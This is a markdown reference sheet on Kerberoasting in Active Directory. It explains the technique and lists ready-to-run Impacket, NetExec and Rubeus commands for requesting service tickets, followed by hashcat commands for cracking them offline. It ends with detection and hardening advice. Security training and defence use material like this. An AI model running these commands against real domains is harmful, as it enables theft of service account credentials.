

# Kerberoasting

### Affected object / attribute
**User account with an SPN** (`servicePrincipalName`), `msDS-SupportedEncryptionTypes`.

### Concept (deep)
Any domain user can request a **TGS for any SPN**; the ticket is encrypted with the service account key — crack offline. **RC4 (0x17)** tickets crack far faster than AES, so attackers downgrade to RC4.

### Attack flow (Mermaid)


### Exhaustive commands
```bash
# ── Impacket ─────────────────────────────────────────────────────────
impacket-GetUserSPNs -request -dc-ip 10.10.10.5 \
  corp.local/lowpriv:'Password123!' -outputfile krb.txt
impacket-GetUserSPNs -request -dc-ip 10.10.10.5 \
  corp.local/lowpriv:'Password123!' -request-user svc_sql

# ── NetExec ──────────────────────────────────────────────────────────
nxc ldap 10.10.10.5 -u lowpriv -p 'Password123!' --kerberoasting krb.txt

# ── Rubeus ───────────────────────────────────────────────────────────
Rubeus.exe kerberoast /outfile:krb.txt

# ── Crack ────────────────────────────────────────────────────────────
hashcat -m 13100 krb.txt rockyou.txt   # RC4
hashcat -m 19700 krb.txt rockyou.txt   # AES
```

### Detection and defensive measures
**4769 with `TicketEncryptionType=0x17`** for service accounts, **bursts from one user across many SPNs**. Move to **AES-only** (`msDS-SupportedEncryptionTypes`), use **gMSA**, and deploy a **honeypot SPN**.

---
